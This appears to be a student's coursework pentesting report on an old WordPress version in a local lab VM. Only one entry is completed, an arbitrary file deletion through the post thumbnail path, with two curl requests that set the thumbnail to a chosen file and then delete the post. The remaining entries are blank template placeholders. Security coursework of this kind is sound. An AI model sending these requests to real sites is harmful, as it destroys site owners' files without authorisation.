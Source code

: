 # Project 7 - WordPress Pentesting

Time spent: 3 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2018-20714 Arbitrary File Deletion
  - [ ] Summary: Post thumbnail can be set to an arbitrary path, which is deleted when the post is deleted. Requires author account.
    - Vulnerability types: Aribtary file deletion
    - Tested in version: 4.2
    - Fixed in version: 4.9.7
  - [ ] GIF Walkthrough: ![](2020-10-18_22-34-52.gif)
  - [ ] Steps to recreate: 
     1. Upload a new media
     2. Note the media ID
     3. Go to http://wpdistillery.vm/wp-admin/post.php?post={mediaId}&action=edit and view the page source to get the post wpNonce
     4. Make the following post request to update the thumbnail with the path to the file you wish to delete.
     ```
     curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=10' -H 'Cookie: {validSessionCookie}' -d 'action=editattachment&_wpnonce={wpNonce}&thumb={pathToFileToDelete}'
     ```
     5. Go back to the edit post page and find the delete post wpNonce value and note it down.
     6. Post the following URL with the delete post nonce.
     ```
     curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=10' -H 'Cookie: {validSessionCookie}' -d 'action=delete&_wpnonce={deleteNonce}'
     ```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/post.php?rev=32282)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
